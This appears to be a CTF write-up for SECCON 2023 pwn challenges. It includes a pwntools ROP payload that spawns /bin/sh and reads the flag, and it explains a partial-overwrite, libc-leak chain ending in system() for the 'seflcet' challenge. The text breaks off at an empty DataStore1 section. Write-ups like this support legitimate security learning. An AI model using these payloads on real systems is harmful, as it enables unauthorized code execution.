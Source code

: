 ```yaml
---
title: "SECCON CTF 2023 Writeups"
date: 2023-09-27T10:39:43+07:00
draft: true
categories: 
  - writeups
tags:
  - pwn
summary: "Secconctf 2023 Writeups"
# featuredImage: 
---
```


# rop-2.35

During returning, `rax` holds address of the buffer. Use the gadget `00000000000401169 mov rdi, rax; call _system;` to call `system('/bin/sh\x00')`. Stack might be overwritten while processing so reserve some space for stack using some `ret`.

```python
ret = 0x00401194
payload = b'/bin/sh\x00'
payload += b'a'*(0x18- len(payload)) + p64(ret)*4 + p64(0x000000000401169)
p.sendlineafter(b'Enter something:\n', payload)
p.sendline(b'cat f*')
```

# seflcet

The program contains an overflow this whole struct in `read_member()`

```c
typedef struct {
  char key[KEY_SIZE];
  char buf[KEY_SIZE];
  const char *error;
  int status;
  void (*throw)(int, const char*, ...);
} ctx_t;
```

then it check `status` and call `throw(status, error)`.

## CFI

The program wraps the call to `throw()` inside `CFI()` macro. It checks whether a function pointer points to an `endbr64` instruction. This mechanism implemented by Intel is called CET ([Control Flow Enforcement Technology](https://en.wikipedia.org/wiki/Control-flow_integrity#Intel_Control-flow_Enforcement_Technology)). GCC and clang enabled this mitigation when `-fcf-protection=branch` is provided. But in this challenge, author manually implemented it without enabling CET, hence the name of this challenge.

## Partial overwrite

We can overwrite lowest 2 bytes of `throw`, which initially points to `err`, to point it to another funtion in libc. 

You can find functions lying near `err` by:

```
$ nm -CD ./libc.so.6 | sort | grep -w err -C 10
0000000000120b60 W twalk_r@@GLIBC_2.30
0000000000120c10 W tdestroy@@GLIBC_2.2.5
0000000000120dc0 T lsearch@@GLIBC_2.2.5
0000000000120e60 T lfind@@GLIBC_2.2.5
0000000000120ff0 T vwarn@@GLIBC_2.2.5
0000000000121000 T vwarnx@@GLIBC_2.2.5
0000000000121010 T warn@@GLIBC_2.2.5
00000000001210d0 T warnx@@GLIBC_2.2.5
0000000000121190 T verr@@GLIBC_2.2.5
00000000001211b0 T verrx@@GLIBC_2.2.5
00000000001211d0 T err@@GLIBC_2.2.5
0000000000121270 T errx@@GLIBC_2.2.5
00000000001214e0 W error@@GLIBC_2.2.5
0000000000121700 W error_at_line@@GLIBC_2.2.5
00000000001217b0 T ustat@GLIBC_2.2.5
0000000000121c60 W get_nprocs@@GLIBC_2.2.5
0000000000121ca0 W get_nprocs_conf@@GLIBC_2.2.5
0000000000121da0 W get_phys_pages@@GLIBC_2.2.5
0000000000121e30 W get_avphys_pages@@GLIBC_2.2.5
0000000000121ec0 T dirname@@GLIBC_2.2.5
0000000000121f80 T getloadavg@@GLIBC_2.2.5
```

and `err` is not far from `warn` so we use `warn` to leak (`warn` is similar to `printf`).

## Exploit

First call `warn(write@GOT)`.

Then we must find a way to return to main for further calls. There are two options, use `__libc_start_main` or register exit handler using `atexit(main)`.

Then write `/bin/sh\x00` to bss with `gets()` and call `system(bss)`

`warn(write@GOT)` -> `__libc_start_main` -> `gets(bss+0x300)` -> `system(bss+0x300)`

## Intended solution

The intended solution was to `prctl(ARCH_SET_FS, bss)`, which effectively sets the security cookie to 0. Since the overflow is big enough, one can reach the return address from `main()` and start ROPping. 

# DataStore1

## Vulnerabilities



